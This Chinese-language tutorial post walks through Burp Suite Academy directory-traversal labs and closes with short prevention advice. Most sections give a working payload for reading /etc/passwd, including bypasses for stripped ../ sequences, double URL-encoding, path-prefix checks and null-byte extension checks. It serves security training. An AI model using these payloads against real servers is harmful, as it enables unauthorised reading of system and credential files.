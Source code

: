 ```yaml
---
layout: post
title: "Burpsuite Academy系列教程-Directory traversal"
date:   2021/8/24
tags: [Burpsuite Academy系列教程]
comments: true
author: c-uncle
---
```


# Directory traversal

目录遍历漏洞，通常是由于服务器配置错误或代码层错误导致。攻击者可以利用该漏洞实现跨目录查看文件。



## Reading arbitrary files via directory traversal

通过目录遍历读取任意文件。

假设有一个购物网站，该网站在展示商品图片时使用了像下面一样的HTML标签。

```
<img src="/loadImage?filename=218.png">
```

我们可以得知，站点的/loadImage功能会根据参数filename获取对应的图片，如果攻击者可以控制filename，那么就有可能实现一个任意文件读取。

如果站点存放图片的路径为/var/www/images/，那么攻击者可以构造如下payload来进行攻击。

```
payload
/loadImage?filename=../../../etc/passwd
```

../表示当前文件夹的上一层文件夹，例如，当前路径为/var/www/images，此时../表示的就是/var/www/。多个../是有叠加效果的。对于/var/www/images/，三个../表示根目录/。

对于根目录来说，/的../依旧是/。也就是说，如果我们不知道绝对路径，依旧能够利用../来实现目录遍历，只要添加足够多的../

#### Lab: File path traversal, simple case

目标：利用目录遍历漏洞获取/etc/passwd的内容

```
payload
image?filename=../../../etc/passwd
```

如果是在浏览器里执行这个payload，那么就把图片保存下来，用记事本打开就行了。



## Common obstacles to exploiting file path traversal vulnerabilities

下面几个lab将讲解绕过目录遍历检测的方法。

#### Lab: File path traversal, traversal sequences blocked with absolute path bypass

场景：应用程序禁止目录遍历序列，也就是禁止../，但是将用户提供的文件名视为相对于默认工作目录。

目标：获取/etc/passwd

```
payload
image?filename=/etc/passwd
```

#### Lab: File path traversal, traversal sequences stripped non-recursively

场景：应用程序去除文件名参数中的路径遍历序列，也就是去除../

目标：获取/etc/passwd

```
payload
image?filename=..././..././..././etc/passwd
```

尝试image?filename=../62.jpg，页面显示正常，我怀疑应用程序是将../过滤了，因此这里采用双写../来绕过。

#### Lab: File path traversal, traversal sequences stripped with superfluous URL-decode

目标：获取/etc/passwd

场景：应用程序在使用用户提交的参数前会对参数进行解码操作。

```
payload
image?filename=..%252F..%252F..%252Fetc%252Fpasswd
未编码前的payload
image?filename=../../../etc/passwd
```

我先尝试对payload进行了一次编码，未能通过，猜想对参数的过滤应该也是解码后进行的，因此尝试二次编码，成功绕过。

#### Lab: File path traversal, validation of start of path

场景：应用程序要求用户提交的参数是绝对路径，并且要以/var/www/images/开头。

目标：获取/etc/passwd

```
payload
image?filename=/var/www/images/../../../etc/passwd
```

由于一定要以/var/www/images/作为路径开头，那么我们可以利用../来进行目录遍历

#### Lab: File path traversal, validation of file extension with null byte bypass

场景：应用程序会对用户提交的文件名参数进行后缀验证，确保用户访问的文件合法。

目标：获取/etc/passwd

```
payload
image?filename=../../../etc/passwd%00.jpg
```

利用%00截断来绕过后缀检测。



# How to prevent a directory traversal attack

防止目录遍历最有效的方法是避免用户提交的参数交付给系统API处理。如果非要这么做，可以从下面两个方面来预防。

1. 设置白名单，验证用户输入是否合法
2. 验证后，在调用系统API处理用户输入后，检查一下处理后的路径是否合法。这里指的是../被系统处理后真正的路径。